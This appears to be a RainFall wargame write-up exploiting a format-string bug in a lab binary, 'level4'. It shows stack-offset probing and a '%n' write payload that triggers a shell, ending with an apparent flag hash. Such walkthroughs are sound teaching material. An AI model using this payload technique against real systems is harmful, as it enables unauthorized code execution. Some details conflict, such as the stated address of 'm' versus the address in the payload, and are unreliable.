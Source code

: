 This will insert n from argv[1] bytes to 'm'.

```shell-session
$ ./a.out abc
3
```

And this display the number of bytes in 'm'.

# Plan

Pretty much the same as level3.

1. We have to find the address of the global variable `m` in the .bss section. Wich is outside of the control flow of the program.
3. We must find the format string direct access to be able to do our Format String attack.
2. We must write 16930116(10) bytes in the global variable `m` to trigger the Format String attack and get the shell.

# Proceed

1. From the objdump of the binary, we can see that the global variable `m` is at the address 0x8049804.
2. We will pass a custom python script to print the addresses in the stack. with a custom format string to see where our address start to pop off the stack. Then we  will get our Format String address.


```shell-code
level4@RainFall:~$ python -c 'print "BBBB" + "|-|%08x"*20' | ./level4
BBBB|-|b7ff26b0|-|bffff794|-|b7fd0ff4|-|00000000|-|00000000|-|bffff758|-|0804848d|-|bffff550|-|00000200|-|b7fd1ac0|-|b7ff37d0|-|42424242|-|257c2d7c|-|7c783830|-|30257c2d|-|2d7c7838|-|3830257c|-|7c2d7c78|-|78383025|-|257c2d7c
```

We need to find BBBB with is 0x42424242 in the stack.

We can find the Format String address at the 12th position of the stack.

We can verify it with the following command:

```shell-code
level4@RainFall:~$ python -c 'print "BBBB.%12$x"'| ./level4
BBBB.42424242
```

Which is indeed the correct position.

3. We will use the format string direct access address to write 16930116(10) bytes in the global variable `m` to trigger the Format String attack and get the call to system().

We must substract 4 bytes from the total amout of bytes to write to leave the place for the Format String address and have the correct amount for the conditional jump.
So it will be 16930116(10) bytes - 4 = 16930112(10) bytes.

```shell-code
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%16930112c" + "%12$n"' | ./level4
[...]
                                                          �
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
